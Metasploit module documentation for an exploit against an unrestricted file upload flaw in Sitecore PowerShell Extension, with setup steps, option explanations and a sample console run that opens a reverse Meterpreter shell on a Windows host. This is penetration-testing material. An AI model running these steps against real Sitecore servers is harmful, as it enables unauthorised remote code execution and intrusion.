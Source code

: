 ## Vulnerable Application

The Sitecore Experience Platform (XP) is flagship CMS product.
Provides comprehensive digital marketing tools, view of customer data and many other features.
A user can install multiple extensions to Sitecore XP - among them is Sitecore PowerShell Extension (SPA).
It is obligatory requirement for popular SXA add-on.
The SPA is vulnerable to unrestricted file upload up to version 7.0.
An attacker can upload malicious ASPX file and gain remote code execution.


### Installation

The Sitecore XP can be downloaded from [here](https://developers.sitecore.com/downloads/Sitecore_Experience_Platform).
Please note that a license is required for successful installation.


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/windows/http/sitecore_xp_cve_2025_34511`
1. Do: `set RHOSTS [Sitecore XP IP address]`
1. Do: `set VHOST [Sitecore XP hostname]`
1. Do: `set IDENTITY_VHOST [hostname of Sitecore XP identity server]`
1. Do: `set LHOST [attacker IP]`
1. Do: `run`

## Options


### VHOST

The hostname of Sitecore XP.
When installed, Sitecore XP deploys multiple vhosts, among them is the Sitecore XP host, where a user can access majority of functions.


### IDENTITY_VHOST

The Sitecore XP uses separate vhost for "identity host", which is used when user is authenticating and asking for session data.
If you are not sure about `IDENTITY_VHOST`, you can visit `https://[sitecore instance]/identity/login/shell/SitecoreIdentityServer`.
The hostname of page where the URL will redirect you can be used as `IDENTITY_VHOST`.


## Scenarios


```
msf exploit(windows/http/sitecore_xp_cve_2025_34511) > set IDENTITY_VHOST sitecorepocidentityserver.dev.local
msf exploit(windows/http/sitecore_xp_cve_2025_34511) > set RHOSTS 10.5.132.138
RHOSTS => 10.5.132.138
msf exploit(windows/http/sitecore_xp_cve_2025_34511) > set VHOST sitecorepocsc.dev.local
VHOST => sitecorepocsc.dev.local
msf exploit(windows/http/sitecore_xp_cve_2025_34511) > set IDENTITY_VHOST sitecorepocidentityserver.dev.local
IDENTITY_VHOST => sitecorepocidentityserver.dev.local
msf exploit(windows/http/sitecore_xp_cve_2025_34511) > run verbose=true 
[*] Started reverse TCP handler on 192.168.3.7:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Sitecore version detected 10.3.0, which is vulnerable
[*] Sending stage (203846 bytes) to 10.5.132.138
[*] Meterpreter session 1 opened (192.168.3.7:4444 -> 10.5.132.138:50194) at 2025-08-26 12:58:22 +0200

meterpreter > sysinfo
Computer        : WIN11_22H2_0800
OS              : Windows 11 22H2 (10.0 Build 22621).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: IIS APPPOOL\sitecorepocsc.dev.local
```
